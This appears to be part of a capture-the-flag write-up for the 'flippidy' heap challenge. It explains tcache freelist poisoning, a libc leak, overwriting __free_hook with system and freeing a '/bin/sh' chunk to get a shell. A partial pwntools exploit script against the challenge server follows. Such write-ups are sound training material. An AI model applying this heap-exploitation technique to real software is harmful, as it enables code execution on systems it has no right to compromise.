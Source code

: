 Take care to overwrite the rest of the 3 pointers at `0x404020` with valid string pointers because puts will also try to print those when the menu is printed.

Freelist after our write: `HEAD -> 0x404040 -> 0x404050`

After our write, the menu is printed again, along with a libc address. Now, we have an arbitrary write (we can control what is at `0x404050` when we allocate a 0x30 chunk at `0x404040`).

After our final allocation, we will be able to write the address of `__free_hook` to the fwd of the chunk of `0x404050`, which is still on the freelist.

We can then just allocate another chunk, which will point to `__free_hook`, and write the address of `system` to it.

Finally, we allocate one more chunk at index 0, write `"/bin/sh"` to it, and flip to free it, launching our shell.

Script:
```python
from pwn import *

e = ELF("./flippidy")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = e
context.terminal = ["konsole", "-e"]


"""
p = process([e.path])
context.log_level="debug"
gdb.attach(p, "c")
"""

p = remote("dicec.tf", 31904)

def add(idx, data):
    p.sendlineafter(":", "1")
    p.sendlineafter(":", str(idx))
    p.sendlineafter(":", data)


def flip():
    p.sendlineafter(":", "2")
    
    
p.sendlineafter("be:", "7")


add(3, p64(0x00404020))

flip()


add(1, p64(e.got["setbuf"]) + p64(0x404158) + p64(0x004040ac) + p64(0x004040de) + p64(0x404050))

p.recvline()
p.recvline()



libc.address = u64(p.recv(6).ljust(8, "\x00")) - libc.sym["setbuf"]

print("libc", hex(libc.address))

```
